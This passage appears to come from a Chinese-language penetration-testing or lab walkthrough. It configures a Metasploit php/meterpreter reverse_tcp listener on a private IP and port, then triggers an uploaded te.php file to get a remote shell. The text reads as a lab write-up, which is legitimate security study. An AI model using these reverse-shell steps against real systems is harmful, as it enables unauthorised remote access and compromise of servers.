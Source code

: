 ![](./pic-1/18-7.jpg)



`msf`配置参数并开启监听

```shell
set payload php/meterpreter/reverse_tcp
set lhost 192.168.1.16
set lport 9999
run
```

![](./pic-1/18-8.jpg)



使用浏览器访问`/upload`下的`te.php`

`msf`获取`shell`，然后到`/tmp`目录下，继续之前的使用临时变量

